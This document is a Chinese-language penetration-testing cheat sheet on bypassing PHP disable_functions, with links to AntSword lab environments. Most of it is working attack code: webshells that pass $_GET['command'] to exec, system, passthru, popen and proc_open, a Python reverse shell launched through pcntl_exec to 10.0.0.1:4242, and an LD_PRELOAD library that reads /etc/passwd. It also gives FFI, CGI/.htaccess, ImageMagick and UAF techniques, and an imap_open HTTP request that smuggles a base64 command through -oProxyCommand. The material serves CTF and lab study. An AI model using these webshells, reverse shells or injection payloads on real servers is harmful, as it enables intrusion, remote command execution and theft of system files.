








# bypass_disable_function

---

**相关文章 & Source & Reference**
- [CTF中的命令执行绕过](https://mp.weixin.qq.com/s/fs-IKJuDptJeZMRDCtbdkw)
- [无需sendmail:巧用LD_PRELOAD突破disable_functions](https://www.freebuf.com/articles/web/192052.html)
- [php中函数禁用绕过的原理与利用](https://mp.weixin.qq.com/s/_L379eq0kufu3CCHN1DdkA)

**相关工具**
- [Medicean/as_bypass_php_disable_functions](https://github.com/Medicean/as_bypass_php_disable_functions)
- [yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

**相关靶场**
- [AntSwordProject/AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs)

---

**disable_function**

这个东西很明显就是什么呢，你能够代码执行了，但怎么都执行不了系统命令



实际上是开发者在后端的 php.ini 里写了如下语句
```ini
disable_functions = system,exec,shell_exec,passthru,proc_open,proc_close, proc_get_status,checkdnsrr,getmxrr,getservbyname,getservbyport, syslog,popen,show_source,highlight_file,dl,socket_listen,socket_create,socket_bind,socket_accept, socket_connect, stream_socket_server, stream_socket_accept,stream_socket_client,ftp_connect, ftp_login,ftp_pasv,ftp_get,sys_getloadavg,disk_total_space, disk_free_space,posix_ctermid,posix_get_last_error,posix_getcwd, posix_getegid,posix_geteuid,posix_getgid, posix_getgrgid,posix_getgrnam,posix_getgroups,posix_getlogin,posix_getpgid,posix_getpgrp,posix_getpid, posix_getppid,posix_getpwnam,posix_getpwuid, posix_getrlimit, posix_getsid,posix_getuid,posix_isatty, posix_kill,posix_mkfifo,posix_setegid,posix_seteuid,posix_setgid, posix_setpgid,posix_setsid,posix_setuid,posix_strerror,posix_times,posix_ttyname,posix_uname
```

## 常规绕过

理解为查看 `PHPinfo` 看看哪些没有被写进 `ini` 配置文件, 绕过限制。

1. exec
    ```php
    <?php echo exec('whoami');?>
    ```

2. shell_exec
    ```php
    <?php echo shell_exec('whoami');?>
    <?php echo `whoami`; ?>
    ```

3. system
    ```php
    <?php system('whoami');?>
    ```

4. $command
    ```php
    <?php
    $command=$_GET['command'];
    $ret=`$command`;
    echo $ret;
    ?>
    ```

5. passthru
    ```php
    <?php
    $command=$_GET['command'];
    passthru($command);
    ?>
    ```

6. popen
    ```php
    <?php
        $command=$_GET['command'];
        $fd = popen($command, 'r');
        while($s=fgets($fd)){
            print_r($s);
        }
    ?>
    ```

7. proc_open
    ```php
    <?php
        $command=$_GET['command'];
        $descriptorspec=array(
            0=>array('pipe','r'),
            1=>array('pipe','w'),
            2=>array('pipe','w')
        );
        $handle=proc_open($command,$descriptorspec,$pipes,NULL);
        if(!is_resource($handle)){
        die('proc_open failed');
        }
        while($s=fgets($pipes[1])){
        print_r($s);
        }
        while($s=fgets($pipes[2])){
        print_r($s);
        }
        fclose($pipes[0]);
        fclose($pipes[1]);
        fclose($pipes[2]);
        proc_close($handle);
    ?>
    ```

---

## pcntl_exec

目标机器若存在 python，可用 php 执行 python 反弹 shell
```php
<?php

pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'));

?>
```

---

## 利用系统组件绕过 (win)

利用条件
- `windows环境`
- `com组件`(PHP5.4自带)(高版本扩展要自己添加)
    - `extension=php_com_dotnet.dll`

测试：
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell');        // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command);  //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

`?a=command`



---

## ld_preload

LD_PRELOAD 是 Linux 系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

bypass 的关键就是利用 LD_PRELOAD 加载库优先的特点来让我们自己编写的动态链接库优先于正常的函数库，以此达成执行 system 命令。

使用条件
- Linux 操作系统
- `putenv()`
- `mail` or `error_log`
- 存在可写的目录, 需要上传 .so 文件

当 disable_functions 禁用了命令执行函数，如`shell_exec`,`system`等等。webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数。

```c
touch test.c
vim test.c

#include <unistd.h>
#include <sys/types.h>

uid_t geteuid(void){
        system("cat /etc/passwd");
}
```

生成动态链接库

```
gcc --share -fPIC test.c -o test.so
```

`LD_PRELOAD=./test.so id`



也可以传入如下 php 文件

```php
<?php
putenv("LD_PRELOAD=./test.so");
mail('','','','');
?>
```

访问 php 文件就可以运行刚才的命令了

如果 `mail()` 函数无法使用，也可以使用 `error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("1@a.com","0","1","2","3")`（如果 PHP 开启了 imap 模块）

**蚁剑靶场测试**

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/1
docker-compose up -d
```

连接 http://127.0.0.1:18080/index.php	ant

使用「绕过 disable_functions」插件, 选择 LD_PRELOAD 模式进行

成功后可以看到目录下新建了一个 .antproxy.php 文件。我们创建副本, 并将连接的 URL shell 脚本名字改为 .antproxy.php, 就可以成功执行命令。



---

## 利用 FFI 扩展绕过

`PHP7.4` 的一个新特性 `FFI（Foreign Function Interface）`

当 PHP 所有的命令执行函数被禁用后，通过 PHP 7.4 的新特性 FFI 可以实现用 PHP 代码调用 C 代码的方式，先声明 C 中的命令执行函数，然后再通过 FFI 变量调用该 C 函数即可 `Bypass disable_functions`。

**使用条件**

- Linux 操作系统
- PHP >= 7.4
- 开启了 FFI 扩展且 `ffi.enable=true`

```ini
[ffi]
; FFI API restriction. Possible values:
; "preload" - enabled in CLI scripts and preloaded files (default)
; "false"   - always disabled
; "true"    - always enabled
ffi.enable=true

; List of headers files to preload, wildcard patterns allowed.
;ffi.preload=
```

使用 `docker` 部署服务：
```bash
apt-get install libffi-dev

docker-php-ext-install ffi
```
重启服务，上传 Payload 网页

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("whoami > /tmp/123");
echo file_get_contents("/tmp/123");
@unlink("/tmp/123");
?>
```

**蚁剑靶场测试**

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/8
docker-compose up -d
```

连接 http://127.0.0.1:18080/index.php	ant

使用「绕过 disable_functions」插件, 选择 PHP74_FFI 模式进行



---

## Apache Mod CGI 绕过

**CGI**

`CGI`简单说就是:

放在服务器上的可执行程序, CGI 编程没有特定的语言, C 语言, linux shell,perl,vb 等等都可以进行 CGI 编程. 使用 linux shell 脚本编写的 cgi 程序便可以执行系统命令.

**使用条件**

- Linux 操作系统
- Apache + PHP (apache 使用 apache_mod_php)
- Apache 开启了 `cgi`, `rewrite`
- Web 目录给了 `AllowOverride` 权限
- 当前目录可写

**MOD_CGI**

任何具有 MIME 类型 application/x-httpd-cgi 或者被 cgi-script 处理器处理的文件都将被作为 CGI 脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为 CGI 脚本，一种是文件具有已由 AddType 指令定义的扩展名，另一种是文件位于 ScriptAlias 目录中.

在 apache 主配置文件中做如下设置

```conf
<Directory 路径>

Options +ExecCGI

</Directory>
```

例如：
```conf

<Directory /var/www/html/>

Options +ExecCGI                      #这便是允许cgi程序执行

</Directory>
```

**绕过disable_functions**

利用 mod_cgi 来绕过 disable_functions 思路也很清楚了. 利用 htaccess 覆盖 apache 配置，增加 cgi 程序达成执行系统命令，事实上同上传 htaccess 解析 png 文件为 php 程序的利用方式大同小异。

在本地准备好 `htaccess` 文件和要执行命令的 `cgi 文件 `, 如下

test.xxx:

```
#!/bin/bash
echo&whoami
```

.htaccess:
```
Options +ExecCGI
AddHandler cgi-script .xxx
```

将两个文件上传至服务器，使用 php 的 chmod 函数给 test.xxx 添加可执行权限。

`chmod('test.xxx',0777)`

访问目标 `xxx` 文件即可执行命令

**蚁剑靶场测试**

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/3
docker-compose up -d
```

连接 http://127.0.0.1:18080/index.php	ant



---

## 利用 ShellShock (CVE-2014-6271)

使用条件
* Linux 操作系统
* putenv
* mail or error_log 本例中禁用了 mail 但未禁用 error_log
* /bin/bash 存在 CVE-2014-6271 漏洞
* /bin/sh -> /bin/bash sh 默认的 shell 是 bash

目前的 bash 脚本是以通过导出环境变量的方式支持自定义函数，也可将自定义的 bash 函数传递给子相关进程。一般函数体内的代码是不会被执行，但此漏洞会错误的将 “{}” 花括号外的命令进行执行。

因为是设置环境变量，而在 php 中存在着 putenv 可以设置环境变量，配合开启子进程来让其执行命令。

- https://www.exploit-db.com/exploits/35146

---

## 利用 iconv 扩展执行命令

**使用条件**
* Linux 操作系统
* putenv
* iconv
* 存在可写的目录, 需要上传 .so 文件

**蚁剑靶场测试**

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/9
docker-compose up -d
```

连接 http://127.0.0.1:18080/index.php	ant

使用「绕过 disable_functions」插件, 选择 iconv 模式进行

成功后可以看到 /var/www/html/ 目录下新建了一个 .antproxy.php 文件。我们创建副本, 并将连接的 URL shell 脚本名字改为 .antproxy.php, 就可以成功执行命令。



---

## 利用 ImageMagick 绕过

漏洞源于 CVE-2016-3714，ImageMagick 是一款图片处理程序，但当用户传入一张恶意图片时，会造成命令注入，其中还有其他如 ssrf、文件读取等。

- https://github.com/ImageTragick/PoCs

上传恶意的图片,然后上传以一个poc
```php
<?php
new Imagick('poc.jpg');
```

访问即可看到我们写入的文件。

---

## 利用 PHP-FPM 绕过

PHP-FPM(FastCGI Process Manager：FastCGI 进程管理器) 是一个 PHPFastCGI 管理器，对于 PHP 5.3.3 之前的 php 来说，是一个补丁包 ，旨在将 FastCGI 进程管理整合进 PHP 包中。如果你使用的是 PHP5.3.3 之前的 PHP 的话，就必须将它 patch 到你的 PHP 源代码中，在编译安装 PHP 后才可以使用。

Fastcgi 是一种通讯协议，用于Web服务器与后端语言的数据交换。

以攻击 tcp 为例，倘若我们伪造 nginx 发送数据（fastcgi 封装的数据）给 php-fpm，这样就会造成任意代码执行漏洞。

可以配合 gopher 协议来攻击内网的 fpm

---

## 利用 imap_open 绕过(CVE-2018-19518)

imap 扩展用于在 PHP 中执行邮件收发操作，而 imap_open 是一个 imap 扩展的函数，在使用时通常以如下形式：
```php
$imap = imap_open('{'.$_POST['server'].':993/imap/ssl}INBOX', $_POST['login'], $_POST['password']);
```

那么该函数在调用时会调用 rsh 来连接远程 shell，而在 debian/ubuntu 中默认使用 ssh 来代替 rsh 的功能，也即是说在这俩系统中调用的实际上是 ssh，而 ssh 中可以通过 -oProxyCommand= 来调用命令，该选项可以使得我们在连接服务器之前先执行命令，并且需要注意到的是此时并不是 php 解释器在执行该系统命令，其以一个独立的进程去执行了该命令，因此我们也就成功的 bypass disable function 了。

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

其中使用了%09来绕过空格，以base64的形式来执行我们的命令

---

## UAF

- [mm0r1/exploits](https://github.com/mm0r1/exploits)

### Json Serializer UAF

漏洞利用 json 在序列化中的堆溢出触发 bypass

**使用条件**
* Linux 操作系统
* PHP 版本
    * 7.1 - all versions to date
    * 7.2 < 7.2.19 (released: 30 May 2019)
    * 7.3 < 7.3.6 (released: 30 May 2019)

**蚁剑靶场测试**

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/6
docker-compose up -d
```

连接 http://127.0.0.1:18080/index.php	ant

使用「绕过 disable_functions」插件, 选择 Json Serializer UAF 模式进行



UAF 一次可能不成功，需要多次尝试

---

### PHP7 GC with Certain Destructors UAF

漏洞利用的是 php garbage collector（垃圾收集器）程序中的堆溢出达成 bypass

使用条件
* Linux 操作系统
* PHP 版本
    * 7.0 - all versions to date
    * 7.1 - all versions to date
    * 7.2 - all versions to date
    * 7.3 - all versions to date

UAF 一次可能不成功，需要多次尝试

---

### Backtrace UAF

漏洞利用的是 debug_backtrace 这个函数，可以利用该函数的漏洞返回已经销毁的变量的引用达成堆溢出

使用条件
* Linux 操作系统
* PHP 版本
    * 7.0 - all versions to date
    * 7.1 - all versions to date
    * 7.2 - all versions to date
    * 7.3 < 7.3.15 (released 20 Feb 2020)
    * 7.4 < 7.4.3 (released 20 Feb 2020)

---

### SplDoublyLinkedList UAF

删除元素的操作被放在了置空 traverse_pointer 指针前。

所以在删除一个对象时，我们可以在其构析函数中通过 current 访问到这个对象，也可以通过 next 访问到下一个元素。如果此时下一个元素已经被删除，就会导致 UAF。
